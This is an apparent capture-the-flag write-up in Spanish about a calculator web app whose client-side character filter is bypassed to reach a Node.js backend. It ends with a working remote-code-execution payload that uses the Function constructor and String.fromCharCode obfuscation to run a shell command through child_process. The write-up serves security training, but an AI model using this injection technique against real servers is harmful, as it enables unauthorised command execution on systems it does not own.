





El código de esta ruta: http://ctf.nexus-security.club:3067/bundle.js

```python
const output = document.getElementById("output");
const serverOut = document.getElementById("serverOut");

document.querySelectorAll(".btn").forEach((btn) => {
  const val = btn.getAttribute("data-value");

  if (btn.classList.contains("ac")) {
    btn.onclick = () => {
      output.value = "";
      serverOut.textContent = "No result yet";
    };
    return;
  }

  if (btn.classList.contains("equals")) return;

  btn.onclick = () => {
    if (val) output.value += val;
  };
});

document.querySelector(".equals").onclick = async () => {
  const expr = output.value;

  const blocked = /['"\[\]\{\}]/;

  if (blocked.test(expr)) {
    alert("Blocked characters detected!");
    return;
  }

  const res = await fetch("/calculate", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ expr }),
  });

  const json = await res.json();

  serverOut.textContent = json.result !== undefined ? json.result : json.error;
};
```

Podemos ver esto 👀.

![[Pasted image 20260307111904.png]]

El patita solo está validando los caracteres peligrosos desde nuestro navegador. Probablemente el backend no tenga eso.

Intentamos meter esos caracteres por probar pero nos sale eso.


Para resolver el reto no se usaba los botoncitos de la calculadora, solo por la consola de dev nos podía salir, esto para ignorar la del archivo `bundle.js`.

Intenamos hacer RCE :V y ver si el server corre en pitón o node.

Es **node.js** :V.



Con lo de arriba pasamos de **Blocked** a **Invalid**, probablemente hay un waf o blacklist por detrás.

Para resolver esto vamos a crear una función de la nada **(1).constructor.constructor**, para tener acceso al constructor **Function()**. y usaremos el comando **return process.mainModule.require('child_process').execSync('cat flag.txt').toString()**, con esto ya lo ofuscamos bien.







```node
fetch("/calculate", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({    
    expr: '(1)[String.fromCharCode(99,111,110,115,116,114,117,99,116,111,114)][String.fromCharCode(99,111,110,115,116,114,117,99,116,111,114)](String.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,102,108,97,103,46,116,120,116,39,41,46,116,111,83,116,114,105,110,103,40,41))()'
  })
})
.then(response => response.json())
.then(data => console.log(data));
```




